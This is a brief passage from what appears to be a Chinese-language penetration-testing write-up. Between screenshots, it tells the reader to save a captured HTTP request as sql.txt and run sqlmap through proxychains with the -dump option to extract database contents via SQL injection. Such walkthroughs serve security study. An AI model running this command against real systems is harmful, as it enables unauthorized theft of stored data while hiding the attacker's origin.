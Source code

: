 [![](assets/1705540441-756631b3a9077292b31d6437c4179d35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175218-efc628fa-b454-1.png)

此时将数据包保存在 sql.txt 中，放入 sqlmap 中进行扫描，直接`-dump`获取数据

```plain
proxychains sqlmap -r "sql.txt"  -dump
```

[![](assets/1705540441-29be9f0bfd578cd82beebb27343d5bd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175234-f914fd8c-b454-1.png)

